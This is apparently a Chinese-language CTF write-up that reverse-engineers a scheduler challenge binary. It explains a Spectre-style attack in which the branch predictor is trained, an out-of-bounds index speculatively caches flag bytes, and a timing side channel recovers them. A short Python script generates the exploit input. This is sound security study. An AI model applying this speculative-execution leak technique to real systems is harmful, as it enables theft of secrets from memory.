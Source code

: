 逆向分析几个分支，可以大概猜到Scheduler类成员变量，在开始运行时读取flag放在0x1F516偏移处的内存中

```c
Scheduler {
    int fd;             // 0 /fpga/spectral
    uint64_t padding;  // 8
    uint16_t Timing     // 16
    uint16_t seq_max;   // 18 256
    uint16_t star_max;  // 20 0xFA
    char stars[0xfA][0x200]; // 22
    char padding[0x10];
    char seq[0x100];    // 0x1F416
    char flag[];    // 0x1F516
}
```

分支跳转太多时编译器会编译跳转为`jmp rax`，IDA就无法识别跳转，通过汇编可以看到各个分支

![20230406142214](https://raw.githubusercontent.com/X1ngn/ctf/master/uPic/2023 04 06 14 22 14 .png)

- 0号函数：清空Scheduler类所在的缓存
- 1号函数：依次访问0x1F416偏移处的seq数组中的所有元素
- 2号函数：将Timing置0
- 3号函数：将Timing置1
- 4号函数：输入一个idx，访问0x1F416偏移处的seq数组中下标idx处的元素j（idx要小于seq_max，256，否则抛出异常），j作为22偏移处的stars二维数组（可以理解为字符串数组）的下标访问字符串，写入某个文件中
- 5号函数：输入一个idx，访问22偏移处的stars字符串数组中下标idx处的字符串（idx要小于star_max，0xfa，否则抛出异常），写入某个文件中
- 6号函数：输入2个数据保存到vector，前后分别是idx和value，用来设置0x1F416偏移处的seq数组中下标idx处的元素为value
- 7号函数：输入一组数据保存到vector，分别用来执行4号函数的操作

当Timing为1时每次操作都会计时。

利用思路是

1. 先清空所有的cache
2. 使用7号函数访问多次合法内存，训练分支预测器走合法不会抛出异常的分支
3. 输入越界的idx，即使用flag[i]作为上述的j，由于乱序执行和被提前训练好的分支预测器，CPU会预先取出`seq[flag[i]]`并打算作为stars字符串数组的下标，在真正执行到判断条件时发现idx越界了，再恢复寄存器等上下文信息到未取出`seq[flag[i]]`时的样子，但是此时`seq[flag[i]]`已经在cache中了。
4. 开启计时，并依次访问所有字符串，用时最短的字符串说明cache命中，以此来猜测`flag[i]`的值
5. 依次猜测每个i(0～32)的每一种可能(32~126)

结合频道里赛后交流的佬们的思路写exp

Generater.py

```python
def emit_check(char_idx, char_val):
    s = ""
    for _ in range(0, 3):
        s += "0\n"
        for i in range(0xf0, 0x100):
            s += f"6\n{i} 0\n"
        s += f"7\n"
        s += " ".join(map(str, [i for i in range(0xf0, 0x100)] + [0x100 + char_idx])) + "\n"
        s += f"3\n"
        s += f"5\n"
        s += f"{char_val}\n"
        s += f"2\n"
    return s
    
with open("submission", "w") as f:
    for i in range(0, 120):
        for j in range(0x20, 0x7f):
            f.write(emit_check(i, j))
```
